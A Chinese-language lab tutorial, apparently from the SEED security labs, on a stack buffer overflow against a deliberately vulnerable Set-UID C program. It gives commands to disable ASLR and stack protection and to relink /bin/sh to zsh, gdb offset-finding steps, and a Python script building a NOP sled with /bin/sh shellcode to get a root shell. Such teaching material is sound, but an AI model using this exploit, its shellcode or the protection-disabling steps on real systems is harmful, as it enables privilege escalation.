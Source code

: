 # 溢出攻击环境准备

## 关闭地址空间随机化

地址空间随机化（address space layout randomization，ASLR）是针对缓冲区溢出攻击的防御措施之一。目的
是让攻击者难以猜测到所注入的恶意代码在内存中的具体位置。    
可以使用以下指令关闭这个机制：  
```bash
sudo sysctl -w kernel.randomize_va_space=0
```

## 攻击环境准备
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int foo(char *str)
{
    char buffer[100];
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char **argv)
{
    char str[400];
    FILE *badfile;
    
    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 300, badfile);
    foo(str);
    
    printf("Returned Properly\n");
    return 1;
}
```
![复现缓冲区溢出](../img/overflow-envperpare.png)

!!! gcc编译指令

    -z execstack 默认情况下，栈不可执行，这个参数设置为可执行栈  
    -fno-stack-protector 关闭StackGuard保护机制，这个机制用来检测缓冲区溢出  
    
## 验证栈的起始地址是固定的

通过上述实验，发生了缓冲区溢出，现在的问题是如何找到注入代码的内存地址。可以利用两个特点来
猜测恶意代码的具体位置：  
1. 多数操作系统把栈（每个进程有一个栈）放在固定的起始地址  
2. 多数程序的栈不深  

```c
#include <stdio.h>

int main()
{
    int x=3;
    printf("address is %p\n", &x);
    return 1;
}
```
![栈起始地址固定](../img/overflow-sameaddr.png)

!!! warning

    书中printf(":: a1's address is 0x%x\n", (unsigned int) &a1);这种方式打印
    会报cast from pointer to integer of different siz错误

## NOP指令可以提高猜测成功概率

![NOP提高概率](../img/overflow-nop.png)

NOP指令什么都不做，告诉CPU往前走，猜中任意NOP指令可以继续往前走

## 通过调试程序找到地址

可以通过调试手段寻找栈帧的地址，然后通过栈帧地址推导出注入代码的位置

!!! gcc指令

    -g选项把调试信息添加到二进制文件中

安装gdb调试程序
```bash
sudo apt install gdb -y
```

![gdb调试1](../img/overflow-gdb1.png)
![gdb调试2](../img/overflow-gdb2.png)

  从结果可知，帧指针0xbffff528，返回地址保存在0xbffff528 + 4，第一个NOP指令在0xbffff528 + 8，
因此可以将0xbffff528 + 8作为恶意代码的入口地址，把它写入返回地址字段中。  
  返回地址字段在输入数据中又处于哪个位置？由于输入复制到buffer中，为了让输入中的返回地址字段准确地覆盖栈中的返回
地址区域，需要知道栈中buffer和返回地址区域之间的距离，这个距离就是返回地址字段在输入数据中的相对位置。  
  图中得知了buffer的起始地址，ebp到buffer的起始处的距离为108，由于返回地址区域在ebp指向位置上面的4字节处，
因此返回地址区域到buffer起始处的距离就是112。

!!! gdb调试命令

    b foo在foo函数处设置一个断点  
    run 运行到断点处  
    p $ebp 打印帧指针，32位程序用p $ebp  
    p/d 表示用十进制打印  
    next 查看下一个语句  

!!! 64位系统和32位系统区别

    占用字节：32位，返回地址和帧指针各占4个字节，64位则占8个字节  
    帧指针寄存器： 32位，叫ebp，64位叫rbp

!!! 堆栈中的寄存器

    EIP/RIP 存储的是CPU下次要执行的指令地址  
    EBP/RBP 存储的是栈底指针  
    ESP/RSP 存储的是栈顶指针  

## 构造输入文件

```python
#!/usr/bin/python3
import sys


shellcode = (
    "\x31\xc0"
    "\x50"
    "\x68""//sh"
    "\x68""/bin"
    "\x89\xe3"
    "\x50"
    "\x53"
    "\x89\xe1"
    "\x99"
    "\xb0\x0b"
    "\xcd\x80"
).encode('latin-1')
content = bytearray(0x90 for i in range(300))
start = 300 - len(shellcode)
content[start:] = shellcode

ret = 0xbffff528 + 100
content[112:116] = (ret).to_bytes(4, byteorder='little')
file = open("badfile", "wb")
file.write(content)
file.close()
```

![gdb调试3](../img/overflow-gdb3.png)
成功溢出攻击得到root权限  &#x1F44D;&#x1F44D;&#x1F44D;

有小伙伴用seed虚拟机发现最后得到的是一个普通的shell窗口，可以查看下是否以下原因：

!!! warning

    Ubuntu 16.04以上版本，/bin/sh实际上是一个指向/bin/dash的链接文件，dash实现了
    一个保护机制，当它发现自己在一个Set-UID的进程中运行时，会立刻把有效用户id变成实际
    用户id，主动放弃特权。故利用/bin/sh发起的攻击不会成功。这也是上面显示Permission denied
    的原因    
    需要安装一个zsh的shell程序来做这个实验  
    sudo apt install zsh  
    sudo ln -sf /bin/zsh /bin/sh